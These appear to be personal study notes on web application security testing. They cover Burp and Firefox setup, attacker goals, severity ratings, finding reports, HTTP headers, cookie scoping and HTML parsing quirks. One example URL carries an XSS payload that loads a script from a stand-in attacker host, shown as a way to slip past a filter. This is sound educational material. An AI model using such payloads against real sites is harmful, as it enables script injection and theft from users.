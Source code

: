 <h3> Must-Have Tools </h3>
Burp Proxy but free works fine
	Allows us to watch all HTTP(S) communications, intercept and modify requests, and replay existing requests

Firefox
	Allows anyone to set proxy settings specifically in the browser, rather than setting them system-wide

Breaker mindset
	Here to break things before anyone else can, so that vulnerabilities can be fixed before actual attackers can get to them and in order to do so we need to understand how attackers operate, what their goals are, and how they think
	Need to understand what an application is doing and why it's doing it
	Attackers will always have an advantage over defenders

Attacker Goals 	
	When assessing an application, find every bit of functionality. Once you have a rough list of all the bits try to find an attacking goal. For example say you want credit card numbers from an e-commerce site; maybe I'd want to destroy or falsify data in a server monitoring application 

Prioritization 
	Need to rank areas of the application in terms of payoff: if I compromise area X, does that give me low-value or high-value information? What if I did Y? 
	When possible asking developers "What keeps you up at night?" will often point to areas to check

Findings 
	Reports should be as follows
	Title -- E.g. "Reflected Cross-Site Scripting in profiles"
	Severity 
	Description -- Brief description of what the vulnerability is 
	Reproduction Steps -- Brief description of how to reproduce the bug; preferably with a small proof of concept 
	Impact -- What can be done with the vulnerability?
	Mitigation -- How is it fixed?
	Affected assets -- Generally a list of affected URLs

Severity
	Base it on difficulty of exploitation and potential business impact
	Informational - Issue has no real impact
	Low - The business impact is minimal
	Medium - Potential to cause harm to users, but not revealing data
	High - Potential to reveal user data or aids in exploitation of other vulnerabilities 
	Critical - High risk of personal/confidential data exposure, general system compromise, and other severe impacts to the business.

HTTP Requests 
	Basic format as follows:
``` html
		VERB /resource/locater HTTP/1.1
		Header1: Value1
		Header2: Value 2
		...
		<Body of request>
```

Request Headers
	Host: Indicates the desired host handling the request 
	Accept: Indicates what MIME type(s) are accepted by the client; often used to specify JSON or XML output for webservices
	Cookie: Passes cookie data to the server
	Referrer: Page loading to this request (not passed to other servers when using HTTPS on the origin)
	Authorization: Used for 'basic auth' pages (mainly). Takes the form "Basic <base64'd username:password>"

Cookies
	Key-value pairs of data that are sent from the server and reside on the client for a fixed period of time.
	Each cookie has a domain pattern that it applies to and they're passed with each request the client makes to matching hosts.

Cookie Security
	Cookies added for .example.com can be read by any subdomain of example.com
	Cookies added for a subdomain can only be read in that subdomain and its subdomains 
	A subdomain can set cookies for its own subdomains and parent, but it can't set cookies for sibling domains.
	E.g. test.example.com can't set cookies on test2.example.com, but can set them on example.com and foo.test.example.com
	Two important flags to know for cookies 
		Secure: The cookies will only be accessible to HTTPS pages
		HTTPOnly: The cookie cannot be read by JavaScript 

# HTML

Parsing 
	HTML should be parsed according to the relevant spec, generally HTML5 now
	Often not parsed by your browser but also Web-Application Firewalls and other filters.
	Whenever there's a discrepancy in how these two items parse things, there's probably a vulnerability 
	Example:
		You can go to https://example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js> and it generates
		![[Pasted image 20240325211333.png]]
		A bad XSS filter on the web application may not see that as a script tag due to it being a 'script/xss' tag. But Firefox's HTML parser, for instance, will treat the slash as whitespace, enabling the attack.
Legacy Parsing 
	Due to decades of bad HTML, browsers are quite excellent at cleaning up after authors, and these conditions are often exploitable 
	- '`<script>` tag on its own will automatically be closed at the end of the page
